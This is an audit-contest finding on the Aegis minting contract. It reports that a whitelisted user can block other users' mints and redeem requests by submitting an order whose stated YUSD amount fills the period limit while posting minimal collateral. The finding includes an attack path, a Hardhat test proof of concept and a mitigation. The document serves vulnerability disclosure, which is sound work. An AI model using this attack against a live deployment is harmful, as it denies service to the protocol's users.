 Real Ebony Ferret

Medium

# A whitelisted user can block all other users from minting

### Summary

The current total period amount of minting limit can be manipulated by a whitelisted user to block other users from minting their YUSD tokens.

### Root Cause

The [`_checkMintRedeemLimit`](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L785) function is used on both functions [`mint`](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L250) and [`requestRedeem`](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L285) to verify the mint and redeem limits.

```javascript

function mint(
    OrderLib.Order calldata order,
    bytes calldata signature
  ) external nonReentrant onlyWhitelisted(order.userWallet) onlySupportedAsset(order.collateralAsset) {
    _snip__snip__snip__snip__snip__snip__snip__snip__snip__snip__snip__snip__snip__snip__snip__snip__snip_

@>>  _checkMintRedeemLimit(mintLimit, order.yusdAmount);
    order.verify(getDomainSeparator(), aegisConfig.trustedSigner(), signature);
    _deduplicateOrder(order.userWallet, order.nonce);

   uint256 yusdAmount = _calculateMinYUSDAmount(order.collateralAsset, order.collateralAmount, order.yusdAmount);
    if (yusdAmount < order.slippageAdjustedAmount) {
      revert PriceSlippage();
    }
    _snip__snip__snip__snip__snip__snip__snip__snip__snip__snip__snip__snip__snip__snip__snip__snip__snip_
}  

```

However, whenever a whitelisted user requests an order with his own value of `yusdAmount`. It will trigger a `_checkMintRedeemLimit` function call where the `currentPeriodTotalAmount` value of the mint limit is increased by the amount of `yusdAmount` provided by the user.

```javascript

function _checkMintRedeemLimit(MintRedeemLimit storage limits, uint256 yusdAmount) internal {
    if (limits.periodDuration == 0 || limits.maxPeriodAmount == 0) {
      return;
    }
    uint256 currentPeriodEndTime = limits.currentPeriodStartTime + limits.periodDuration;
    if (
      (currentPeriodEndTime >= block.timestamp && limits.currentPeriodTotalAmount + yusdAmount > limits.maxPeriodAmount) ||
      (currentPeriodEndTime < block.timestamp && yusdAmount > limits.maxPeriodAmount)
    ) {
      revert LimitReached();
    }
    // Start new mint period
    if (currentPeriodEndTime <= block.timestamp) {
      limits.currentPeriodStartTime = uint32(block.timestamp);
      limits.currentPeriodTotalAmount = 0;
    }

@>> limits.currentPeriodTotalAmount += yusdAmount; // @audit currentPeriodTotalAmount is increased everytime this function is called based on the user's provided value of yusdAmount
}

```

Such mechanism can be abused by a whitelisted user to artificially increase the mint limits by just sending one legitimate order with an amount of `yusdAmount` to fill up the maximum period amount limit `maxPeriodAmount` while he's only required to send a minimum collateral asset amount.


### Internal Pre-conditions

The current total amount of mint limits has not been reached.

### External Pre-conditions

N/A

### Attack Path

1. A whitelisted user, i.e. Alice observes the current period limit amount of minting.
2. Alice creates an order with a minimum amount of collateral asset but with the value of `yusdAmount` = `maxPeriodAmount` - `currentPeriodTotalAmount`
3. This order will fill up the total amount limit for that period. Hence, no one will be able to mint for that period anymore.

### Impact

This will break core functionalities of the protocol, where other users can no longer mint new YUSD tokens after one single order from the attacker. This is due to the fact that the protocol can't receive additional collateral assets as the function `mint` will revert.

Note that as the redeem limit check also uses the function [`_checkMintRedeemLimit`](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L785), the attacker can also craft a malicous redeem order with a `yusdAmount` that will fill up the maximum redeem limit. As such, a legitimate user can't create another redeem request and the protocol can no longer lock user's YUSD tokens.

The impact of this issue is absolutely HIGH. However, such malicious order can be detected by offchain services, the likelihood is LOW. The final severity for the issue is hence MEDIUM.

### PoC

The following test case can be appended to the suite `describe('AegisMinting', () => {` inside the file `test/4_aegis_minting.spec.ts`.

```javascript

describe('#IncreaseArtificiallyMintRedeemLimit', () => {
    describe('minting limit', () => {
      it('Should allow attacker to stop other users from minting', async () => {
        const [owner, attacker, sender] = await ethers.getSigners()

        const { aegisMintingContract, aegisMintingAddress, assetContract, assetAddress, aegisConfig } = await loadFixture(deployFixture)

        await aegisMintingContract.grantRole(COLLATERAL_MANAGER_ROLE, owner)
        await aegisConfig.setOperator(owner, true)
        await aegisConfig['whitelistAddress(address,bool)'](attacker, true)
        await aegisConfig['whitelistAddress(address,bool)'](sender, true)

        // Whitelist the attacker and the normal sender
        await assetContract.mint(attacker.address, ethers.parseEther('1000'))
        await assetContract.connect(attacker).approve(aegisMintingAddress, ethers.parseEther('1000'))
        await assetContract.mint(sender.address, ethers.parseEther('1000'))
        await assetContract.connect(sender).approve(aegisMintingAddress, ethers.parseEther('1000'))

        // Set minting limits
        const mintMaxAmount = ethers.parseEther('100')
        await aegisMintingContract.grantRole(SETTINGS_MANAGER_ROLE, owner)
        await aegisMintingContract.setMintLimits(60, mintMaxAmount)

        const collateralAmountAttacker = ethers.parseEther('1') // 1 eth
        const yusdAmountAttacker = ethers.parseEther('100')

        const blockTime = await time.latest()
        const orderAttacker = {
          orderType: OrderType.MINT,
          userWallet: attacker.address,
          collateralAsset: assetAddress,
          collateralAmount: collateralAmountAttacker,
          yusdAmount: yusdAmountAttacker,
          slippageAdjustedAmount: collateralAmountAttacker, // This makes sure that the slippage check passes
          expiry: blockTime + 10000,
          nonce: Date.now(),
          additionalData: encodeString(''),
        }
        const signature = await signOrder(orderAttacker, aegisMintingAddress)
        // Mint tokens
        await expect(aegisMintingContract.connect(attacker).mint(orderAttacker, signature)).not.to.be.reverted

        // Now, a normal user can no longer mint tokens due to the minting limit has been artifically reached
        const collateralAmountSender = ethers.parseEther('1') // He tries to send only 1 collateral asset
        const yusdAmountSender = ethers.parseEther('1') // In order to mint only 1 YUSD
        const currentBlockTime = await time.latest()
        const orderSender = {
          orderType: OrderType.MINT,
          userWallet: sender.address,
          collateralAsset: assetAddress,
          collateralAmount: collateralAmountSender,
          yusdAmount: yusdAmountSender,
          slippageAdjustedAmount: yusdAmountSender,
          expiry: currentBlockTime + 10000,
          nonce: Date.now(),
          additionalData: encodeString(''),
        }
        const newSignature = await signOrder(orderSender, aegisMintingAddress)
        // Mint tokens but it reverts
        await expect(aegisMintingContract.connect(sender).mint(orderSender, newSignature)).to.be.reverted

      })
    })
  })

```

- Then, it can be run using the following command `npx hardhat test --grep "Should allow attacker to stop other users from minting"`, which will output as below.

```text

AegisMinting
    #IncreaseArtificiallyMintRedeemLimit
      minting limit
        ✔ Should allow attacker to stop other users from minting (1041ms)


  1 passing (1s)

```


### Mitigation

The `yusdAmount` must be validated when minting or creating a redeem request before calling the function [`_checkMintRedeemLimit`](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L785). This can be done on the frontend when the order is requested before being signed. Otherwise, such limit check must alway rely on the effective collateral amount.